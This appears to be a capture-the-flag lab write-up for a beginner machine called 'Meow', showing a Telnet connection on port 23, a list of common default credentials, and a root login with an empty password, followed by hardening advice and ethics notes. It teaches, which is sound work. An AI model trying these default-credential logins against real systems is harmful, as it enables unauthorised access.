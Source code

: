 # Service Exploitation - Telnet Attack

## Objective
Connect to and exploit the Telnet service vulnerability

## Attack Methodology

### Step 1: Understanding Telnet

Before attempting to exploit the Telnet service, it's important to understand what Telnet is and why it's considered insecure:

**Protocol Overview**:
- Telnet is a network protocol used for remote access to computers
- It operates on port 23 by default
- It was developed in 1969 as one of the earliest remote login protocols
- Telnet transmits all data, including usernames and passwords, in plaintext (unencrypted)
- It has largely been replaced by SSH (Secure Shell) in modern systems
- Its presence often indicates legacy systems or poor security practices

**Security Vulnerabilities**:
- No encryption for data transmission
- Susceptible to eavesdropping and packet sniffing
- Vulnerable to man-in-the-middle attacks
- Often configured with weak authentication mechanisms
- Frequently found with default or weak credentials

### Step 2: Connection Attempt

Now that we understand the Telnet protocol, let's attempt to connect to the service we discovered during our Nmap scan:

```bash
telnet [target_IP] 23
```

For example:
```bash
telnet 10.129.x.x 23
```

Expected output:
```
Trying 10.129.x.x...
Connected to 10.129.x.x.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login: 
```

This confirms:
- We can successfully connect to the Telnet service
- The service is presenting a login prompt
- The system appears to be a Linux-based server (based on the banner)
- We need valid credentials to proceed

### Step 3: Credential Testing

Now we need to attempt to authenticate to the Telnet service. In penetration testing, it's common to try default and commonly used credentials:

**Common Default Credentials**:
- admin/admin
- root/root
- user/user
- admin/password
- administrator/password
- guest/guest

Let's start by trying some of these common credentials:

```
Meow login: admin
Password: admin
Login incorrect

Meow login: user
Password: user
Login incorrect
```

After trying a few common combinations, let's try the username "root" which is the superuser account on Linux systems:

```
Meow login: root
Password: [press Enter - no password]
```

Expected result:
```
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.advantage.com

  System information as of Tue 21 May 2023 12:34:56 PM UTC

  System load:  0.0               Processes:             123
  Usage of /:   24.3% of 8.73GB   Users logged in:       0
  Memory usage: 21%               IPv4 address for eth0: 10.129.x.x
  Swap usage:   0%

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue May 21 12:34:56 2023
root@Meow:~# 
```

Success! We've gained access to the system using:
- Username: `root`
- Password: [none - empty password]

This is a critical security vulnerability known as "default credentials" or "null authentication" where the root account has no password set.

### Step 4: Successful Authentication

Now that we have successfully authenticated to the system, we have full administrative access as the root user. This is the highest privilege level on a Linux system, allowing us to:

- View, modify, or delete any file on the system
- Install or remove software
- Create or delete user accounts
- Access all system resources
- Execute any command with full privileges

To verify our access level, we can run:

```bash
whoami
```

Expected output:
```
root
```

This confirms we are logged in as the root user with full system privileges.

## Key Security Concepts

### Default Credential Vulnerability

The vulnerability we exploited is one of the most common yet dangerous security issues:

**Why default passwords are dangerous**:
- They are widely known and documented
- They are often the first thing attackers try
- They provide immediate access with no exploitation required
- They often grant administrative privileges
- They indicate poor security practices overall

**Password policy importance**:
- All accounts should have strong, unique passwords
- Default passwords should always be changed during system setup
- Root/administrative accounts should have the strongest protection
- Password complexity requirements should be enforced
- Regular password rotation should be implemented

**Authentication best practices**:
- Implement multi-factor authentication where possible
- Use key-based authentication instead of passwords for critical systems
- Disable direct root login
- Implement account lockout after failed attempts
- Audit authentication logs regularly

### Telnet Security Issues

The use of Telnet itself represents a security risk:

**Unencrypted transmission**:
- All data, including credentials, is sent in plaintext
- Network traffic can be intercepted and read by attackers
- Sensitive information can be easily captured

**Man-in-the-middle attacks**:
- Attackers can intercept and modify Telnet traffic
- Commands can be altered in transit
- Responses can be manipulated

**Modern alternatives (SSH)**:
- SSH (Secure Shell) provides encrypted communications
- SSH supports key-based authentication
- SSH includes integrity checking
- SSH offers secure file transfer capabilities
- SSH is the industry standard for secure remote access

## Ethical Considerations

When performing penetration testing activities, it's important to maintain ethical standards:

- **Authorized testing only**: Only test systems you have explicit permission to test
- **Responsible disclosure**: Report vulnerabilities to the appropriate parties
- **Legal implications**: Unauthorized access to systems is illegal in most jurisdictions
- **Professional conduct**: Follow industry standards and best practices
- **Scope limitations**: Stay within the defined scope of testing

## Next Steps

Now that we have gained access to the system, our next step is to explore the system and locate the target flag. This will be covered in the next wiki: Post-Exploitation and Flag Capture.
